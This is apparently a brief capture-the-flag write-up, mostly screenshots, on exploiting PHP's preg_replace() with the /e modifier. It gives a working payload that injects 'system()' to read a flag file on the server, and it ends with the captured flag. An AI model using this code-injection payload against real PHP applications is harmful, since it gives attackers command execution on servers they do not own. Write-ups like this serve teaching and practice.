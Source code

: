 # Pattern 1

![[Pasted image 20210328003941.png]]

![[Pasted image 20210328003958.png]]


## preg_replace()

![[Pasted image 20210328004137.png]]


## Exploit

#### Payload 
``` 
Parameter  Name :  /Chirag/e

Parameter ReplaceName :  system('cat /sl7/flag.txt');

```

![[Pasted image 20210328004621.png]]


### Flag = ```  SL7{PreG-ReplACE-Fini$h!} ```

